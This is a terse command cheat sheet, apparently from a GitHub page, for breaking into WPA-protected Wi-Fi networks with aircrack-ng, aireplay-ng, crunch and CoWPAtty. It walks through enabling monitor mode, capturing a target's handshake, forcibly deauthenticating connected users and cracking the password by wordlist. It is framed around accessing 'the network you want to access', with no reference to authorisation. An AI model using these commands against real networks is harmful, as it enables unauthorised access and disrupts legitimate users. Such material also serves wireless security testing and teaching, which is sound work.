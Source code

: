 Start `airmon-ng`.

```
# airmon-ng start wlan0
```

Run airodump

```
# airodump-ng -i mon0
```

Find the network you want to access then wait for `WPA handshake: ##:##:##:##:##:##`

```
# airodump-ng --bssid <bssid> -c 11 -w cowpatty.cap mon0
```

Kick someone else off

```
# aireplay-ng -0 100 -a <bssid> mon0
```

Dictionary or other, crack the password

```
# aircrack-ng WPAcrack.cap -w <wordlist>
```

Pipe STDIN to aircrack-ng for password cracking

```
$ crunch <min-len> <max-len> -t <placeholder_characters> | aircrack-ng -w - file.cap -e <ESSID>
```

### CoWPAtty

Monitor mode

```
airmon-ng start wlan0
```

Capture

```
airodump-ng --bssid <bssid> -c <channel> -w cowpatty mon0
```

#### Crack After WPA Handshake

```
cowpatty -f passwords.lst -r cowcrack.cap -s <ssid>
```

OR

#### Get a hash

```
genpmmk -f passwords.lst -d hashes -s <ssid>
```

